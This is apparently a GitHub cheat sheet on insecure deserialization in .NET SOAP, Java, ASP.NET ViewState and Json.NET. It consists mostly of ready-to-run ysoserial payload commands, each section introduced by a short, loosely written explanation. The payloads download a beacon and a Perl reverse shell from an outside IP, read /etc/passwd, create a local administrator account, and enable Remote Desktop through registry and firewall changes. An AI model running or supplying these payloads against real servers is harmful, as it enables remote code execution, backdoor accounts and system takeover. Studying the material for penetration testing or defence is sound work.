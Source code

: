 #  Insecure deserialization Vulnerability
Any Insecure deserialization vulnerability may occur when serialized object are allowed to alter.subconsequently,deserialization vulnerabilities could allow attackers to perform remote code execution without authentication in the context of application server and gaining access to unauthorized data.Serialized objects are generally sent across is base64 format used in web applications.Technically Serialization is the process of converting the object and class into a binary so that save into disk. on the other hand,deserialization is the process of converting the Object(Bring Back to original Object at the code stage)..

# SOAP NET Deserialization
```
ysoserial.exe -f SoapFormatter -g TextFormattingRunProperties -c "cmd /c ipconfig" -o raw
ysoserial.exe -f SoapFormatter -g TextFormattingRunProperties -c "cmd /c hostname" -o raw
ysoserial.exe -f SoapFormatter -g TextFormattingRunProperties -c "cmd /c certutil.exe -urlcache -split -f  http://192.168.100.199\beacon.exe C:\\Users\\Public\\beacon.txe" -o raw
ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "cmd /c reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f"

ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "cmd /c netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
"
```
# Java Deserialization 

The deserialization vulnerabilities may occur when deserialize convert to an object any serialized stream without first validating in the Java Base Application.
due to the combination of two rudimentary implementations flaws.The deserialization vulnerabilities are considered difficult to make it secure in the application for develops.
```

java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "wget sdfsfdoztjxibkocen698fskck0ehs8yymn.burpcollaborator.net"
java -jar ysoserial-0.0.5-all.jar CommonsCollections1 'wget http://192.168.100.199:1010/reverse-shell.pl -O /tmp/shell.pl' > perl-reverse-shell.pl.bin
java -jar ysoserial-0.0.5-all.jar CommonsCollections1 'cat /etc/passwd' > passwd.bin
```
# ViewState Deserialization 

view state is the technique used by an ASP.NET Web page to persist changes to the state of a Web Form across postbacks. By default.
technically ViewState is used to store user data on page at the time of post back of web page however ViewState does not hold the controls,it holds the values of controls.
When tthe page is accessed, the current state of the page and values that need to be retained during postback are serialized into base64-encoded strings and output in the ViewState hidden field or fields.

**It might be possible to execute arbitrary OS Command In the context of applicaiton server if MAC doesn't enforce to enable in the viewstate parameter.**

This format seems to be standardized for all Viewstate implementations in the ASP.Net Application.

* Base64 **Can be defined using EnableViewStateMac and ViewStateEncryptionMode attribute set to false**
* Base64 + MAC (Message Authentication Code) **Enabled Can be defined using EnableViewStateMac attribute set to true**
* Base64 + Encrypted **Can be defined using viewStateEncryptionMode attribute set to true**
```
ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "cmd /c certutil.exe -urlcache -split -f  http://192.168.100.199\beacon.exe C:\\Users\\Public\\beacon.exe"
ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "cmd /c reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f"

ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "cmd /c netsh advfirewall firewall set rule group="remote desktop" new enable=Yes"
```
# Json Deserialization
```
ysoserial.exe -g WindowsIdentity -f Json.Net -c "ping 192.168.100.100" -o base64
ysoserial.exe -g WindowsIdentity -f Json.Net -c "cmd /c net user MeMe 123456!@ /add " -o base64
ysoserial.exe -g WindowsIdentity -f Json.Net -c "net localgroup administrators MeMe /add" -o base64
ysoserial.exe -g WindowsIdentity -f Json.Net -c "cmd /c netsh advfirewall firewall set rule group="remote desktop" new enable=Yes" -o base64
ysoserial.exe -g WindowsIdentity -f Json.Net -c "cmd /c reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f" -o base64

```


* Credit@https://book.hacktricks.xyz/pentesting-web/deserialization
* Credit@https://speakerdeck.com/pwntester/attacking-net-serialization?slide=5
* Credit@https://0xdf.gitlab.io/2020/02/15/htb-json.html
